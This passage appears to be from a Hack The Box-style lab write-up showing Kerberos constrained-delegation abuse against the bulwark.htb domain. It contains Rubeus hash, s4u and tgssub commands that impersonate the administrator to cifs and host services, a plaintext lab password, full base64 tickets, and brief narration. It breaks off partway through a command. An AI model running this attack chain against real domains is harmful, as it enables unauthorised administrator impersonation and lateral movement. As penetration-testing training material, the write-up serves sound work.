  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: Calculate Password Hash(es)

[*] Input password             : ofgie903-.n!kd-
[*] Input username             : m.benson
[*] Input domain               : bulwark.htb
[*] Salt                       : BULWARK.HTBm.benson
[*]       rc4_hmac             : 7194C10DF52E54D9E43BC3B0D16DE0FF
[*]       aes128_cts_hmac_sha1 : A50F0416C235C9A4C764A372CCF1ADF0
[*]       aes256_cts_hmac_sha1 : 036F73D9E074A3DEDF2ED34D8158A45471D728106914A040A9712AC5B3C3FACA
[*]       des_cbc_md5          : CE012F5B9D029137

C:\Windows\Temp>.\Rubeus.exe s4u /domain:bulwark.htb /user:m.benson /rc4:7194C10DF52E54D9E43BC3B0D16DE0FF /impersonateuser:administrator /msdsspn:"backupservice/bulwark.htb" /nowrap    
.\Rubeus.exe s4u /domain:bulwark.htb /user:m.benson /rc4:7194C10DF52E54D9E43BC3B0D16DE0FF /impersonateuser:administrator /msdsspn:"backupservice/bulwark.htb" /nowrap                    
                                                                                                                                                                                         
   ______        _                                                                                                                                                                       
  (_____ \      | |                                                                                                                                                                      
   _____) )_   _| |__  _____ _   _  ___                                                                                                                                                  
  |  __  /| | | |  _ \| ___ | | | |/___)                                                                                                                                                 
  | |  \ \| |_| | |_) ) ____| |_| |___ |                                                                                                                                                 
  |_|   |_|____/|____/|_____)____/(___/                                                                                                                                                  
                                                                                                                                                                                         
  v2.2.0                                                                                                                                                                                 
                                                                                                                                                                                         
[*] Action: S4U                                                                                                                                                                          
                                                                                                                                                                                         
[*] Using rc4_hmac hash: 7194C10DF52E54D9E43BC3B0D16DE0FF                                                                                                                                
[*] Building AS-REQ (w/ preauth) for: 'bulwark.htb\m.benson'                                                                                                                             
[*] Using domain controller: 192.168.2.1:88                                                                                                                                              
[+] TGT request successful!                                                                                                                                                              
[*] base64(ticket.kirbi):                                                                                                                                                                
                                                                                                                                                                                         
      doIFXDCCBVigAwIBBaEDAgEWooIEdDCCBHBhggRsMIIEaKADAgEFoQ0bC0JVTFdBUksuSFRCoiAwHqADAgECoRcwFRsGa3JidGd0GwtidWx3YXJrLmh0YqOCBC4wggQqoAMCARKhAwIBAqKCBBwEggQYlZNXYJW7B7TCC9HgNyyWjq2SIdr
Ky/IezdcZVfHoK6fJ1sDo4f0jrnnRtbFQN4lCniLNtymg6JcrIx4TMFKTaPVdUeXeZlnENzggbPbuGYVwcQ72S4m+p45xk9GPi+0lKYmeom9YUeMwaou0m8ETS79/bGGBLd5tyET5C9/Acf7exwN7cZzj6fSV0JoJtKhEODOAiG4MWgFfSlP7BWid
dx0d98ngG1CXqHqXj0sI/GKYU/YbjyVrsq+r4CyYPr8Pz9BDyUMQaJNQdy0TwqwvqubojAvme/WRW0y9h0oXRvBtfcxcpxf1cGWDUHRWBaECW/4RuF25dKtBXR/S00/Lq9TMDIr7PQo1N8TDXsXrO5Xbkg9qDEXJyVrrE/PGDfjnb8JVd0+5V27Ju
6tfGb5UepYbMrZyfc2/kn1pkKRKFiSBKBE3XE7U8bgVzfYFvPJ+ZlUkdALf6F7IuqfV6kCIww12niNI+XuZTKvGnBEoc3f6+Ig9mFQob+22vEIY+Lm1pKp+tPy67k+kcgbC68IhGq4F5TJTFlKMpDbJFbTboSUfCsulpuI3HT9VxlbCuoxGbT10gX
Rju+KLYGnK38CNAcMvCfC3fJnrFdh+MoN1W9kutknUaRZ1VyqcmnCP0Z6DnFQlNtURSpx0n+V+Y8mR+gyT9rA9OKW49iOrEGgWBjZ+75KIpFl7TM+Js7Z9wUeIFWlEbYmB0xzGQ3V33hxuOCt+2v1z+lu6kgeMtJ1ksLGyKMnEzYel0S8p5iRQA/F
TjTY8JPe1AzU2TYKs2DZQTyBbIuLA6uTKYHU1Kwo14hRzsHCrS7ulhrCz5CppkA+abLVgmHyR/SLYugCd68EO9veQivBDw8jAKqPnidjBpWlXvmOm9Pfc+XOVmgarGBble96UqJIYnjc+fBNtp8H9YBLfyVvEml/8b/24r5TJf53yeefVOnXe2gIC
1KOVyARxesM/zFxasJfHMTRXLVulNnfpT9e8Ct0V4V4Ot1ou5gElf7TFQ8KQ1NvWn7KlmrXljooEgM4xJrVhppeEmShQmoTvjCZ42KJpwaRXJNKhfWQPiljGHfjB/DXdONW0h0yjveHgbWcmNApXZ31NWYdaLAAYlzyJxJGXWKQ0KEQPn+8/54hoM
ZIZ5QbZIILGXVXoaeaPFrU4U5ni2mUcFP4U3jbLq9k3QDclKxa3aOxs77z6kWWxEZ2vQzobHh2HL6kveCNNT/xeOVs6qKCU1R2bFVYeYS5xoYuPphuGMj+mRWwkN6m3hxhDXtSCBTub+ubK5HBGWRvpwRqjw+nbeY+B+ETyfMupHLRkF6l65Jg9Ql
9praCZO5DbpYNhknsDcAvF5FV7sASHEtnJRgHzojjTSf1rPJKjjAaZ/Qihe4Ec+fXm0xKlLNmuLaOB0zCB0KADAgEAooHIBIHFfYHCMIG/oIG8MIG5MIG2oBswGaADAgEXoRIEEHDx0K24sRkFnk5hLN07M6OhDRsLQlVMV0FSSy5IVEKiFTAToAM
CAQGhDDAKGwhtLmJlbnNvbqMHAwUAQOEAAKURGA8yMDI0MDUxNDIxMzMzNlqmERgPMjAyNDA1MTUwNzMzMzZapxEYDzIwMjQwNTIxMjEzMzM2WqgNGwtCVUxXQVJLLkhUQqkgMB6gAwIBAqEXMBUbBmtyYnRndBsLYnVsd2Fyay5odGI=        
                                                                                                                                                                                         
 
[*] Action: S4U

[*] Building S4U2self request for: 'm.benson@BULWARK.HTB'
[*] Using domain controller: DC01.bulwark.htb (192.168.2.1)
[*] Sending S4U2self request to 192.168.2.1:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to 'm.benson@BULWARK.HTB'
[*] base64(ticket.kirbi):

      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

[*] Impersonating user 'administrator' to target SPN 'backupservice/bulwark.htb'
[*] Building S4U2proxy request for service: 'backupservice/bulwark.htb'
[*] Using domain controller: DC01.bulwark.htb (192.168.2.1)
[*] Sending S4U2proxy request to domain controller 192.168.2.1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'backupservice/bulwark.htb':

      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

```

We can then request a service ticket for the user `administrator` for the `cifs/FS01` SPN using the forwardable ticket we generated.

```
.\Rubeus.exe s4u /msdsspn:cifs/FS01 /tgs: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 /ticket:doIFwDCCBbygAwIBBaEDAgEWooIEwjCCBL5hggS6MIIEtqADAgEFoQ0bC0JVTFdBUksuSFRCoiAwHqADAgECoRcwFRsGa3JidGd0GwtCVUxXQVJLLkhUQqOCBHwwggR4oAMCARKhAwIBAqKCBGoEggRm8VoCajUSjJrJXx9cAOYiAyZwo8euRlrUb5s0Xh8DdTc8ncZ40breZElhsslJfHCVpx72+/efnwnssQ6752KP97C6/SC79AWSt1fvj2x3RWRCIiEN/dYM22waNwUGTx1sq5+nVi3z5FrjVP/HTnHIDppPvul9Cx1VK2f6ZZ7w9AG3azwNK+Rp1Kr6gO8QlTaicFUcQLZd1qqOkUfpsk/WwBxslFpLHYX5/BAYLhoUr5g0HjcJ1QNXQb+hls0nGKwybj4m173nOfmEPTin+7qW0ONLDlN/sNQmVjDItHL3OX6FdwP/G4RNa2hKY+o5RFNxXPan8MSbX3dr0003IJq6tikDLdg+D3uL8CR/SCDWikvRPEqbASFYxuTA8PqAHj872ry2xCgsRtoCw4WK67JztjgwTi8GuhW1/BSFlZxmaU9/64XWYJyqtVLs1eozVGloqoAu0eyCGFoVx0coMph1gilM/uLyBdQaPnXAAANjsqL4ZFxBE4O+unqzAr8zHe38v3yGHFx+AKluchZa7CqY/72prOtnUCqg2MbQcWri12Tfnao7FUFVhSUcfbZUEHK2LvgFW+Lhiu2EPor6gFyHMcLslA88L6snwf0tltG0QkQe1ssvpcoYsQmMXtmsN2GFFKPFNfNSJokSPvc2sJEz0kPCLes1Z7E9oeXSTJ2mU268UDqsQGvv7oQM2Mn/0P47yv0eXAqWh97q7p8t6CBFvQNpXYQ97Xr6S5owYl9r1FZIYcd/HR7Xh3A7PmWGMy1LfqVu55ADKq+yEw+vwwEfiVA+m1z63KGjSBjaO2w2XSeE/kKP/csR0a+58xX56jwViTSjS/1oC8SEB+PyfCMoZ3j3rMjm22TaXtPgFadH9VqG9LOswPfwoqdGW+KtjURA9W2P1bslhUpVbEW6QB+nAsXE4Qr6UdfDbLEdH9COYA9LXWOSv87kg24CkAxk6WkOR25jJGJRowREknefYUjN51K9veV5yA2iKqwZY92D7SJ1xXWG8FIAAoL/u7aW3RkElg/jeLfWF8DaLCEtkuN+nLkbCDmr7MJy4T9zo8n8Uc6xOVjjDicoq38RY27eqiJ6VKKacBFu5J+7sdksjzoj2hKmc02pEqee693pnIKCrilnplLonXNdALgguwzVvv1QhL/i3BkOZ6VGHSDeCClPhnppICKlftFCqIudlgbEa1HTndXvGokkLpOBo/dgSYEfTbQ944QR8qbHrogyMIHhlGe9JRATEMB7iO4UfUG333w/7KVgcBjldyGv8LuwqMp4zAWH3n6ApHHyQtqlE+Bh9vmAv9sS2X8A9F4z9nUcETnapfZLtItTK9AjwjsvXSZ+khNr5Uwy9basQen8tQLO+gfFXRJpIxm7MQTk5o4P2DN34KWs3n3iyg7bMm4PNMzfLW8u4VwE5BlujqTNTOT0tsIaLuwxkT7j38WaPAmQRUOXq6/P+SVw565IuACgUlAqJSTeYj8zNuI3C7/+ROJq+YToBXjvlaOB6TCB5qADAgEAooHeBIHbfYHYMIHVoIHSMIHPMIHMoCswKaADAgESoSIEIMg8sgsSqrfhuUKmujQY4tuutNKkQVsIwat+FC7yTWQ4oQ0bC0JVTFdBUksuSFRCohswGaADAgEBoRIwEBsOYmFja3Vwc2VydmljZSSjBwMFAEDhAAClERgPMjAyNDA1MTQxODM2MTRaphEYDzIwMjQwNTE1MDQzNjE0WqcRGA8yMDI0MDUyMTE4MzYxNFqoDRsLQlVMV0FSSy5IVEKpIDAeoAMCAQKhFzAVGwZrcmJ0Z3QbC0JVTFdBUksuSFRC

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 

[*] Action: S4U

[*] Action: S4U

[*] Loaded a TGS for BULWARK.HTB\administrator
[*] Impersonating user 'administrator' to target SPN 'cifs/FS01'
[*] Building S4U2proxy request for service: 'cifs/FS01'
[*] Using domain controller: DC01.bulwark.htb (192.168.2.1)
[*] Sending S4U2proxy request to domain controller 192.168.2.1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/FS01':

      doIGzDCCBsigAwIBBaEDAgEWooIF6DCCBeRhggXgMIIF3KADAgEFoQ0bC0JVTFdBUksuSFRCohcwFaADAgECoQ4wDBsEY2lmcxsERlMwMaOCBaswggWnoAMCARKhAwIBAaKCBZkEggWVuVycnkjKBJhyV5qBXa9obuWXSPphxnlsDU4lQ4lbkHOuJAziUxCmwrtH+8THwSwu+bCHQKWaf8KBG+8FbjQSew+E2NhfLv2zd5/V/bXehTKwf0Py0QcxiNGHHfoj2Iw91WqFJ/iPS9RrTjoHwXFAHp+QLexe5GL9BX6UHZtQ727D47h5s13N8Su2Dv4KMuG76ThA2E02jP0n9wfugAQF0mdU0Om21Iv8f+KYGnhkuqoXZtl6EkstWu1HHO5vOgsyhBf6h0ZFMPQA7tgOpZRqbb4oR9F95OitLnBIze5x8+n4bzqN9S6TP1GZo2w0yAxHto9lOGDqhgkT+9QAg2yOUUl//iTbFSIod2dW+7qpW8FV1xPuE55NnHyeQzK5EncIBnO2vTSqtwbOZAKvE/CjiFJPfQadJNGSZjXIY+o9LzoNd96tO3vnnpbw4vpBD8UQq4atDXMUROAy6Sh6RR09+ekwkpmfOo8Y7WJg+HTy3MzB+e9U1RlU/V7ZWpPS7f3Y2hi9z6ER2mh1pD+fqUmXOkYbXha0nv6MnBCT1FjZhjx6BQEkFKD/HJDKp4eyRTiZ6EpL+lTYjcedMTahlxL3X8emL4h8GWPOpGYR3dhNGnwurl+YNdiqa0Hf8IfhzT45vEy1unUbez2e/uMyN5vgbB+5yNhIeApj9kh5XGTL+V27aSK2RuvDPPvQ4LWDZr4jZb/ZACS1z+YI+95WX5G1BGBvNV7vKLoleHtHwC9uU1hR/P56OB5+YwZBwt2OSwCli5CC0AHv+QGvsh9w69KNzlTjMEoZ0VrFwKl0Ycttx3os1lsBz+56GFvcKS+Jbsors1HNLn/6u92yFGja3hBZK+TbvGd6hrqMrfsxt52qeubp6vcEMd/3KMK+UiCmZ4V1H5VoAYqrS02VffN8M7cyonGx62LnRjY811BLk/xXncPXeEZk4AwSyWQUVFpQPE4gQAT+PHzuonToP0pH1MUSBq0Zu6tfG1pguyDZNie8dGR6L89pXPOXmjYRpL4W7QFK8vuKeMmtYWd6+R6SnXllMOv4jTqYJcgtX9KHn5pWfKKzx+Mue/H4xQV3EE8gCFwDBMogRmfuFKpDSbWrWEofBFJ4b9kil/Hw07A8pnoNYTq+Ybm+ynflg1W7LotDuAGoABFVTJDsHjQOraFDgfPfwNK/UiuDzofQbXWzaK5qJKM/zGAb0F0/wQN9wdhJkv/p4UoHEvs8adlB7vUvT2y35S2wjFAMG6Ii2wyJv5jb3t2bS3XXftTvRMpKFsHeo30GBoCitvRZl0eGRHFlGbjAC97NzaJyF5WitWcBRwWpODor5uWcl175GKmceYnOw7u0kKsQXckDFti43eskAOCdW6SVeCFdDDqrZgo8+md7NCRm4Z5X+hQKA4UMv0nY9eipMTHUUQor/ZZX9F7/oOvSNtSFsig2QZeKtgZ2TQub8z9AccZyK3+FwEmpQm3OPovQnZ/t2W6vdFgd97x4pOpxnzv1ufol8LYIbWSeZf1Yi9gQuDwSXcB67QQ1U6poUTY9TZafzi3PvcI6q1kJKgAKTse1d63092ph0OJNzP0RmuPXpkJ+OjlMfR2Hb+ohVtuV6TKllgTN5MuTwjisb4s9xl4hk38FXq19G5Sgf31uGSmrsAhWapgFtu21LVj43hJrIk8b8HtuyylIMLO7TQht7EiMKjdDdsnEuw8E0r03K5pMFE4wiZ4owaK1qPywj58/shMXVlGfpCW7sIzpfYolcbBeMIpPPWttPxWVFlzUE54Sss9bh/hPBU1Ax7ckpHxGzWbbU27z1VehuaCLSd+1g2wb7ayCboXIGVDJt7yA9KT6nNUcqFC2TW5FN1FANZ2ycUtrhKxI0N4da0hT8kJYV/Koh12YrPfbOToEa0IzzBb5V7kkE6OBzzCBzKADAgEAooHEBIHBfYG+MIG7oIG4MIG1MIGyoBswGaADAgERoRIEEFBIWn7EP0LtCeIn6Z42VOChDRsLQlVMV0FSSy5IVEKiGjAYoAMCAQqhETAPGw1hZG1pbmlzdHJhdG9yowcDBQBAoQAApREYDzIwMjQwNTE0MjE0MjE0WqYRGA8yMDI0MDUxNTA0MzYxNFqnERgPMjAyNDA1MjExODM2MTRaqA0bC0JVTFdBUksuSFRCqRcwFaADAgECoQ4wDBsEY2lmcxsERlMwMQ==
```

Then we substitute the SPN to a valid SPN on FS02.

```
PS C:\Windows\Temp> $fs02 = Get-ADComputer -Identity FS02 -Properties servicePrincipalName
$fs02 = Get-ADComputer -Identity FS02 -Properties servicePrincipalName
PS C:\Windows\Temp> $fs02.servicePrincipalName
$fs02.servicePrincipalName
cifs/FS01
HTTP/FS02.bulwark.htb
TERMSRV/FS02
TERMSRV/FS02.bulwark.htb
WSMAN/FS02
WSMAN/FS02.bulwark.htb
RestrictedKrbHost/FS02
HOST/FS02
RestrictedKrbHost/FS02.bulwark.htb
HOST/FS02.bulwark.htb
```

`WSMAN/FS02` and `HTTP/FS02.bulwark.htb` indicate that `WinRM` is enabled on `FS02`. Since we are using the `administrator` account, we can attempt to get a ticket for `HOST/FS02.bulwark.htb` and use `smbexec` or `psexec` to gain access.

```
.\Rubeus.exe tgssub /ticket:doIGzDCCBsigAwIBBaEDAgEWooIF6DCCBeRhggXgMIIF3KADAgEFoQ0bC0JVTFdBUksuSFRCohcwFaADAgECoQ4wDBsEY2lmcxsERlMwMaOCBaswggWnoAMCARKhAwIBAaKCBZkEggWVnM1pmUQb5LAQYPWDr
gyklEVBeiNDzjSVTZe+KbwulKWdYMMXbJysBs8ZInj0yY8pVQ7kMri6XdGZ0wJNkgGracVTdkApcBAxbpOWitI6+/UB0mQh45czIvAeHG+ZHKaRIBa3PxOXnn+n6DKinGOW5OG2KZGc+2/NoJueKek6OZ4YHP1fe27ul/MKCzPJ0xrHxOgFxAAN5j
8CSzVmbjyPsKqtyAuRrFxlT9LPzmjur3Eb+h8g97gOYe+TXFfDsA+wo78NjU90Or+saFsMiio6xnNF1C2ErycvZ5allfHauRYQG5Bg7shOa5ZEWfPh43KOdyaLw3T0Dv3a9ibLpg0hK63WIaTJa9qJcOLCOQsLcOXwq5R8NvXVCvCDvnBPH8I1qwe
